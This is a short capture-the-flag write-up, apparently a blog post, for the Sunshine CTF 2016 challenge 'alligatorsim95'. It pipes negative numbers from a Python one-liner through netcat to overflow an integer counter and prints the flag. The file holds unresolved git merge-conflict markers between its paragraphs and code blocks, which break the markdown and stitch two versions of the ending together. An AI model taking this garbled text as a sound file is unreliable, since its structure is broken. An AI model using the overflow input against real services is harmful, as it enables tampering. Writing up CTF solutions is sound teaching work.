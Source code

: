 ```yaml
---
title:   "Write-up - Sunshine CTF 2016 - alligatorsim95"
date:    2016-03-14 00:00:00
tags:    [Write-up, Sunshine CTF 2016]
summary: "Write-up about Sunshine CTF 2016 - alligatorsim95"
---
```


<<<<<<< HEAD
In this challenge, we need to connect to a server through Netcat. Let is do it with `nc 4.31.182.242 9000`. A message appears.

```


              .-._   _ _ _ _ _ _ _ _
   .-''-.__.-'00  '-' ' ' ' ' ' ' ' '-.
  '.___ '    .   .--_'-' '-' '-' _'-' '._
   V: V 'vv-'   '_   '.       .'  _..' '.'.
     '=.____.=_.--'   :_.__.__:_   '.   : :
             (((____.-'        '-.  /   : :
   snd                         (((-' .' /
                             _____..'  .'
                            '-._____.-'
  -> welcome to alligatorsim95!

-> u r... AN ALLIGATOR!!
.. simulating alligator lifecycle ..
.. simulating alligator throwing physics..
-> you got 1337 eggz in ur nest, how many you gonna lay alligator?? ~~ producing eggz ~~
```

After digging we can see that the program can accept any values, especially negative values. This is surely a way to perform [integer overflows](https://en.wikipedia.org/wiki/Integer_overflow). By a simple command in Python we can find the flag: `python -c "print -1337; print -0xffffffff; print -1" | nc 4.31.182.242 9000`. We will have the following message:

```
=======
```
➜  Desktop python -c "print -1337; print -0xffffffff; print -1" | nc 4.31.182.242 9000 # integer underflow
>>>>>>> cc4fa00a9b202369df3fe4638bac04814b41e9db
              .-._   _ _ _ _ _ _ _ _
   .-''-.__.-'00  '-' ' ' ' ' ' ' ' '-.
  '.___ '    .   .--_'-' '-' '-' _'-' '._
   V: V 'vv-'   '_   '.       .'  _..' '.'.
     '=.____.=_.--'   :_.__.__:_   '.   : :
             (((____.-'        '-.  /   : :
   snd                         (((-' .' /
                             _____..'  .'
                            '-._____.-'
  -> welcome to alligatorsim95!

-> u r... AN ALLIGATOR!!
.. simulating alligator lifecycle ..
.. simulating alligator throwing physics..
-> you got 1337 eggz in ur nest, how many you gonna lay alligator?? ~~ producing eggz ~~
.. simulating alligator lifecycle ..
.. simulating alligator throwing physics..
-> you got 0 eggz in ur nest, how many you gonna lay alligator?? ~~ producing eggz ~~
.. simulating alligator lifecycle ..
.. simulating alligator throwing physics..
-> you got -2147483648 eggz in ur nest, how many you gonna lay alligator?? ~~ producing eggz ~~
-> dang 2147483647 is a lotta eggs
-> as a god among gators here is ur crown:
sun{int_0verflow_i5_a_g0od_st4rt}
```
<<<<<<< HEAD

The flag is `sun{int_0verflow_i5_a_g0od_st4rt}`.
=======
>>>>>>> cc4fa00a9b202369df3fe4638bac04814b41e9db
